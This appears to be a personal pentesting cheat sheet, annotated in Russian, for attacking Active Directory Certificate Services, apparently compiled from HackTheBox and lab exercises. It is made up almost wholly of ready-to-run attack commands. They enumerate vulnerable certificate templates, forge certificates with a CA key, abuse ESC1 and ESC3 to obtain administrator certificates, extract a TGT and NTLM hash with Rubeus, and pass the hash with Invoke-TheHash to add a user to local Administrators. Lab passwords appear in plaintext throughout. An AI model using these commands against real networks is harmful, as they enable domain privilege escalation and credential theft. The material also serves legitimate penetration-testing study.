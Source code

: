     		https://github.com/ly4k/Certipy?tab=readme-ov-file

    		pip3 install -U certipy-ad
		
  		certipy find -enabled -u 'plaintext$'@172.16.117.3 -p 'o6@ekK5#rlw2rAe' -stdout (проверка уязвимых сертификатов)
 		
		certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout		(работает)


		certipy-ad find -enabled -u svc_ldap@authority.htb -p lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222
		сertipy-ad find -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip '10.10.11.202' -vulnerable -stdout -debug
		
		.\Certify.exe find /vulnerable

  ****** создает поддельный сертификат, используя доверенный корневой сертификат CA

  	certipy forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject "CN=Administrator,CN=Users,DC=certificate,DC=htb" -out administrator.pfx
	certipy auth -pfx administrator.pfx -dc-ip $(cat /etc/hosts | grep certificate.htb | cut -d ' ' -f 1)
  

  
*** ESC1 - 1. Запрс сертификата для administrator

		.\certify request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
		& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx


  		certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -debug

		ESC1 - 2. Получаем TGT и хеш администратора на основе сертификата

		.\rubeus asktgt /user:administrator /certificate:administrator.pfx /getcredentials /nowrap

				Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
				cd .\Invoke-TheHash\;Import-Module .\Invoke-TheHash.psm1
				PS C:\Tools> Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash 2b576acbe6bcfda7294d6bd18041b8fe -Command "net localgroup Administrators grace /add"
				
		certipy-ad auth -pfx administrator.pfx
  		
		certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199

*** ESC3 - запрос сертификата на основании другого сертификата

		certipy-ad req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC3 -dc-ip 10.129.56.123		(создаем сертификат)

		certipy req -u 'blwasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template 'User' -on-behalf-of 'lab\administrator' -pfx blwasp.pfx 	(запрашиваем сертификат на основе другого сертификата)
 
		certipy-ad req -u 'blwasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template 'User' -on-behalf-of 'lab\haris' -pfx blwasp.pfx -dc-ip 10.129.56.123
		
  		certipy-ad auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.56.123
